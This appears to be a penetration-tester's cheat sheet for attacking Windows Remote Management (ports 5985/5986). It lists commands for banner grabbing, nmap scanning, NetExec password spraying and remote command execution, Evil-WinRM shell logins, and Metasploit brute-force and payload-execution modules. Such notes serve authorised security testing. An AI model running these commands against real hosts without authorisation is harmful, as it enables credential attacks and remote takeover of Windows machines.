 ```yaml
---
title: "5985,5986-WinRM"
draft: false
tags:
  - 
---
```

The `Windows Remote Management` (**WinRM**) is a simple Windows integrated remote management protocol based on the command line. WinRM uses the Simple Object Access Protocol (**SOAP**) to establish connections to remote hosts and their applications.

`Default Port: 5985,5986(ssl)`

# Banner grabbing
```bash
nc -nv $IP 5985
```

# Nmap
[Nmap](https://nmap.org/) is a network scanner created by [Gordon Lyon](https://en.wikipedia.org/wiki/Gordon_Lyon). Nmap is used to discover hosts and services on computer network by sending packets and analyzing the responses.

Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.

```bash
# Default NSE
sudo nmap -sCV -p5985,5986 $IP
```

# NetExec
[NetExec](https://github.com/Pennyw0rth/NetExec) (AKA **nxc**) is a network service exploitation tool that helps automate assessing the security of large networks.

```bash
# Get Windows version
nxc winrm $IP

# Password spraying
nxc winrm $IP -u /wordlists.txt/users.txt -p /wordlists/passwords.txt --no-bruteforce

# Execute command with AUTHENTICATION
nxc winrm $IP -u administrator -p password123 -x "whoami"
```

# Evil-WinRM
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is the ultimate WinRM shell for hacking/pentesting.
```bash
evil-winrm -i $IP -u Administrator -p password123       # Login
evil-winrm -S -c pub.key -k decrypted_priv.key -i $IP   # Login (CERTIFICATES/SSL)
```

# Metasploit Framework
[Metasploit Framework](https://github.com/rapid7/metasploit-framework) is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
auxiliary/scanner/winrm/winrm_auth_methods	# Checks the authentication methods
auxiliary/scanner/winrm/winrm_cmd           # Execute command
auxiliary/scanner/winrm/winrm_login         # Brute-forcing login

# Execute payload (required AUTHENTICATION)
# If you can't execute it [BUG]; make sure to `set FORCE_VBS true`
exploit/windows/winrm/winrm_script_exec
```